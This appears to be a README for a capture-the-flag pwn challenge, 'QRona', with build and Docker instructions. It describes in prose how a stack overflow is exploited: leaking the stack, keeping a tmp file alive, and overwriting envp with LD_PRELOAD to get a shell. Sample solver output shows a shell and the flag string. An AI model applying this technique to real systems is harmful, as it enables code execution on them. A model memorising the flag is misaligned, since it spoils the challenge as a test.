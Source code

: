 # QRona

![QRona](img/qrona.png?raw=true)

## Description

This is a simple stack based buffer overflow but the `main()` function
never returns. The purpose of the challenge is to receive a `base64`
encoded image and then `zbarimg` is run on it. The results are output
via `stdout`.

## Exploitation

You can exploit with the script in `solution/solve.py` it will run
with `HOST=localhost` and `PORT=1337` by default but if you provide
the argument `local` it will launch locally. Use the argument `debug`
to attach to a debugger.

If the first argument is not `local` or `debug` it will use that as
the host, and likewise for the second argument for the port.

**example usage (remote):**
```bash
$ ./solution/solve.py localhost 1337
[+] Opening connection to localhost on port 1337: Done
[*] leak: 0x7ffd4560e240
[*] envp: 0x7ffd4560e7d8
[*] file: /tmp/covid-8aUH-S5Uqfc
[*] name: /tmp/covid-8aUH-

[+] shell: uid=999(ctf) gid=999(ctf) groups=999(ctf)
[*] Switching to interactive mode
$ cat flag
midnight{34sy_pWns_m4k3_p30pl3_h4ppY}
```

**example usage (local):**
```bash
$ ./solution/solve.py local
[+] Starting local process './docker/files/qrona': pid 3329905
[*] leak: 0x7ffe4ff9eb90
[*] envp: 0x7ffe4ff9f128
[*] file: /tmp/covid-TfHK-KKvdj1
[*] name: /tmp/covid-TfHK-

[+] shell: uid=1000(user) gid=1000(user) groups=1000(user)
[*] Switching to interactive mode
```

The exploit is simple, first it uses the fact the buffer is printed
when the `base64` fails in order to acquire a stack leak, this will
be used later.

Then the player needs to flip a `debug` switch in order to
leak the tmp file name, this will allow them to overwrite this data
in such a way as to pass sanity checks but not have their tmp file
deleted after a run.

Once they have done that, they can make sure the data in this file
is an `ELF shared library`. This will be used for the final step.

Finally, they can overwrite the `envp` array on the stack, so it
will include the string `LD_PRELOAD=/path/to/lib` so they can have
a shell popped when `zbarimg` runs.

## Building

In order to build, just move into the `src` folder and type `make`,
this will generate an executable file.

## Docker

In order to get the dockerised version up and running just move into
the `docker` folder and type the following command:

```bash
docker-compose up --build -d
```

## Distribution

The only file intended to be provided to the player is the `qrona`
challenge binary which has been archived in `dist/qrona.tar.gz`.

## Author

b0bb
